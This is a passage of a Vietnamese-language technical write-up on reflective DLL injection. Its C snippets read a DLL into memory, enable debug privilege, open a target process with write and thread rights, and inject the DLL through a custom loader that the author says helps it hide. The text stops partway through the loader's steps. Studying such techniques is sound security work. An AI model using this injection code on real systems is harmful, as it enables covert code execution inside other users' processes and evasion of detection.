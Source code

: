 - Lưu binary của dll đó vào 1 biến buffer:

  ```C
  lpBuffer = HeapAlloc(GetProcessHeap(), 0, dwLength);
  if (!lpBuffer) {
  	printf("Failed to allocate the heap\n");
  	return false;
  }
  if (ReadFile(hFile, lpBuffer, dwLength, &dwBytesRead, NULL) == FALSE) {
  	printf("Failed to read file to buffer\n");
  	return false;
  }
  ```

- `OpenProcess()` để chuẩn bị nạp buffer vào tiến trình mục tiêu:

  ```C
  if (OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken)) {
  	priv.PrivilegeCount = 1;
  	priv.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
  	if (LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &priv.Privileges[0].Luid))
  		AdjustTokenPrivileges(hToken, FALSE, &priv, 0, NULL, NULL);
  	CloseHandle(hToken);
  }
  hProcess = OpenProcess(PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | PROCESS_VM_OPERATION | PROCESS_VM_WRITE | PROCESS_VM_READ, FALSE, dwProcessId);
  if (!hProcess) {
  	printf("Failed to open the target process.\n");
  	return false;
  }
  ```

- Nạp dll trên vào tiến trình:

  ```C
  hModule = LoadRemoteLibraryN(hProcess, lpBuffer, dwLength, NULL);
  if (!hModule) {
  	printf("Failed to inject the dll");
  	return false;
  }
  ```

- Thông thường trong Windows API chỉ có các hàm như `LoadLibrary()`, `LoadLibraryA()`, `LoadLibraryEx()`. Tuy nhiên, để dll này có thể ẩn mình tốt hơn, mình đã tự custom 1 hàm LoadLibrary được lưu trong thư viện [LoadLibraryN](LoadLibraryN.cpp).
- Thư viện tự custom này thực hiện:

  - Lấy offset của hàm `ReflectiveLoader()` trong dll

    ```C
    dwReflectiveLoaderOffset = GetReflectiveLoaderOffset(lpBuffer);
    if (!dwReflectiveLoaderOffset) {
    	printf("Error GetReflectiveLoaderOffset!\n");
    	return NULL;
    }
    ```
